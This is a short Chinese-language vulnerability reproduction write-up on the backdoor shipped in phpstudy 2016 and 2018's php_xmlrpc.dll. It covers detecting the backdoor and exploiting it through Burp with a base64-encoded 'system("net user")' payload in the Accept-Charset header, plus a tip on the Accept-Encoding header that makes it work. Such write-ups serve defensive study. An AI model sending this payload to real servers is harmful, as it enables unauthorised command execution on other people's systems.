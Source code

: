 # 0x00 软件介绍
phpstudy：流行的php集成部署环境

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：phpstudy 2018

# 0x02 环境搭建
后门代码存在于phpstudy 2016和phpstudy 2018自带的php-5.2.17、php-5.4.45中的\ext\php_xmlrpc.dll模块中，用记事本打开此文件，查找“@eval”，若文件存在“@eval(%s('%s'));”则存在后门，如下图  
![image](./0.png)  
下载并安装phpstudy 2018，按照提示下一步即可

# 0x03 利用条件
无

# 0x04 影响版本
phpstudy 2016和phpstudy 2018自带的php-5.2.17、php-5.4.45

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

burp抓包，请求头中添加字段：Accept-Charset:ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7  
上述字符串是“echo system("net user");”base64编码后的字符串，结果如下图  
![image](./1.png)  
需要注意，发送的数据包头部中：Accept-Enconding:gzio, deflate有一处问题，deflate与前面的逗号之间有一个空格，需要手动删除，不然无法成功执行命令

# 0x06 踩坑记录
无

# 0x07 参考链接
无
